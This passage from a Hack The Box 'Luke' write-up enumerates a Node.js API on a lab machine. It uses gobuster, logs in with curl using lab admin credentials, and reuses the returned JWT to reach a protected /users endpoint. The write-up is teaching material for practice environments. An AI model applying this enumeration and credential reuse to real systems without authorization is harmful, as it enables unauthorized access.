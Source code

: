### NodeJS app

The application running on port 3000 expects a JWT token in the Authorization header.

![](/assets/images/htb-writeup-luke/json1.png)

I dirbursted the site to find API endpoints and found the following:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -s 200,204,301,302,307,401,403 -t 25 -u http://10.10.10.137:3000

/Login (Status: 200)
/login (Status: 200)
/users (Status: 200)
=====================================================
2019/05/26 16:41:55 Finished
=====================================================
```

I can't reach `/users` because it expects an authorization header:

```
{"success":false,"message":"Auth token is not supplied"}
```

But I can log in and get a token with the following POST request;

```console
curl -XPOST http://10.10.10.137:3000/login -H 'Content-Type: application/json' -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}'
```

I get a JWT token back after logging in:

```
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4ODg5NzM0LCJleHAiOjE1NTg5NzYxMzR9.hW8fCbdZ2S9L691y_OG5Kr0Bt2598JYjDlqLVrcOlj4"}
```

To authenticate, I add the following header to the GET request on `/` and `/users`:

```
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4ODg5NzM0LCJleHAiOjE1NTg5NzYxMzR9.hW8fCbdZ2S9L691y_OG5Kr0Bt2598JYjDlqLVrcOlj4
```

